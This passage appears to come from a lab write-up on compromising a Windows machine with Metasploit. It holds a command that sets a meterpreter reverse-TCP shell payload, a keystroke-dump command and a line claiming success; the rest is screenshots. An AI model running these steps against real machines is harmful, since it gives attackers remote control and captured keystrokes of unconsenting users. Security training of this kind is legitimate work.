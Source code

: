 ```set PAYLOAD windows/meterpreter/reverse_tcp``` 
<img width="1167" height="874" alt="image" src="https://github.com/user-attachments/assets/01ebaf58-5b28-4e7e-83d5-86394b098770" />


keyscan_dump	Shows the keystrokes captured so far

<img width="576" height="223" alt="image" src="https://github.com/user-attachments/assets/a9cef6ad-4c30-4c8f-9ef7-d2467f501492" />


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


